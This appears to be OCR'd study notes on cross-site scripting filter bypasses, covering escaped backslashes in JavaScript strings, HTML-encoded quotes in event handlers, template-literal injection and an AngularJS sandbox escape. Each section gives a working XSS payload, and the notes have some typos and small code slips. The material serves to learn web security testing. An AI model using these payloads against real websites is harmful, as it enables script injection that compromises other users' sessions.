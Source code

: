 - Some applications attempt to prevent input from breaking out of the JavaScript string by escaping any single quote characters with a backslash
-  backslash before a character tells the JavaScript parser that the character should be interpreted literally, and not as a special character such as a string terminator.
-  In this situation, applications often make the mistake of failing to escape the backslash character itself. This means that an attacker can use their own backslash character to neutralize the backslash that is added by the application.
```js
';alert(0)//   gets covers to \';alert(0)//
we use
\';alert(0)// which converted to \\';alert(0)//
here 1st '\'bypass 2 nd '\' from interpreting as special char
```

## making use of HTML Encoding
- when the XSS context is some existing javascript within quoted tag attribute, such as an event handler, it is possible to make use of `HTML Encoding` to work around some input filters.
- if sever-side application blocks or sanitize certain character that need for sucessfull XSS exploit, we bypass it using `HTML-Encoding` those characters.
```js
<a href="#" onclick="... var input='controble data here';...">
```
if application blocks or escape `Quote` character we use this 
```js
&apos;-alert(document.domain)-&apos;
```

## XSS in Java Script Template literals
- javascript template literals are string literals that allow embedded javascript expressions.
- the embedded expression are evaluated and are normally concatenated into the surrounding text. template literals are encapsulated in backticks instead of normal quotation ,marks.
- `${...}syntax`
- example following script will print whole msg that includes user's name
```js
document.getElementById('message').innerText=`Welcom, $(user.displayName).`;
```
 to exploit this jS template literal
 ```js
 <script>
 ...
 var input=`controllable data`;
 ...
 <script>
 <!-- we use payload like bellow to trigger XSS-->
 ${alert(document.domain)}
 ```
 
 ## Xss in the Context of the angular JS sandbox
 ```js
 1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
 ```
 